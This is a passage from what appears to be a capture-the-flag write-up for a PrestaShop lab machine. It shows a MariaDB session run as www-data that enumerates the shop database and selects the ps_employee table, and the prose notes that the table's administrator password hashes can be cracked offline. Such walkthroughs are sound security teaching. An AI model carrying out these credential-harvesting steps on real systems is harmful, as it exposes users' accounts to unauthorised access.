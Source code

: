 ```shell
www-data@trickster:~/prestashop/app/config$ mysql -u ps_user -h 127.0.0.1 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 11592
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show tables;
ERROR 1046 (3D000): No database selected
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| prestashop         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use prestashop
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [prestashop]> show tables;
+-------------------------------------------------+
| Tables_in_prestashop                            |
+-------------------------------------------------+
| ps_access                                       |
| ps_accessory                                    |
| ps_address                                      |
| ps_address_format                               |
| ps_admin_filter                                 |
### SNIP ###
```

Further investigation of the `ps_employee` table shows that there are two administrators registered as employees for the PrestaShop instance. By dumping this table we can see the usernames, emails, and password hashes for these employee users. Password hashes are definitely sensitive data as we can attempt to crack these through offline methods.

```shell
MariaDB [prestashop]> select * from ps_employee;
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
| id_employee | id_profile | id_lang | lastname | firstname | email               | passwd                                                       | last_passwd_gen     | stats_date_from | stats_date_to | stats_compare_from | stats_compare_to | stats_compare_option | preselect_date_range | bo_color | bo_theme | bo_css    | default_tab | bo_width | bo_menu | active | optin | id_last_order | id_last_customer_message | id_last_customer | last_connection_date | reset_password_token | reset_password_validity | has_enabled_gravatar |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
```